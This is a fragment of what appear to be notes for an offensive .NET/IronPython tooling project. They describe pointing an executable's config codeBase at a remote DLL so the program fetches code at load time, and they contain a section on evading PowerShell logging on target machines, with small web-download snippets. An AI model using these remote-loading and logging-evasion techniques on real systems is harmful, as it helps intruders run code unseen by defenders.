 Also, see Examples\ComplileNetMod.py
3. Possibly use .Net Download Cache facilities

`gacutul /ldl`

(Location where it downloads):
 C:\Users\dimas\AppData\Local\assembly\dl3\

You can modify. `yourexe.exe.config` file and point to remote DLL to fetch. 

Example:

```xml
 <?xml version="1.0" encoding="utf-8" ?>
<configuration>
  <startup>
        <supportedRuntime version="v4.0" sku=".NETFramework,Version=v4.5.2" />
  </startup>
  <runtime>
    <assemblyBinding xmlns="urn:schemas-microsoft-com:asm.v1">
      <dependentAssembly>
        <assemblyIdentity
          name="IronPython"
          publicKeyToken="7f709c5b713576e1"
          culture="" />
        <codeBase version="2.7.7.0" href="http://127.0.0.1:8000/IronPython.dll" />
      </dependentAssembly>
    </assemblyBinding>
  </runtime>
</configuration>
```

## DLRium: Example: compile netmodules in code, and then assemble them, in code

C:\Users\dimas\Documents\Projects\MET\Typhoon\Examples\Netmodules\CompileNetMod.py

## Attempt Logging evasion while maintaining productivity 

choices:

- cPython: Not logged but you need cPython on target machine (blacklisted)

```python
import urllib2
content = urllib2.urlopen("http://google.com").read()
print(content)
```

- CSharp: Not logged, but a direct compilation requires invocation of `csc.exe` executable from potentially logged shell. Powershell records you executing `csc.exe` or `msbuild.exe`.

```csharp
using System.Net
var content = string.Empty;
using (var webClient = new WebClient())
{
    content = webClient.DownloadString("http://google.com");
    Console.WriteLine(content);
}
```
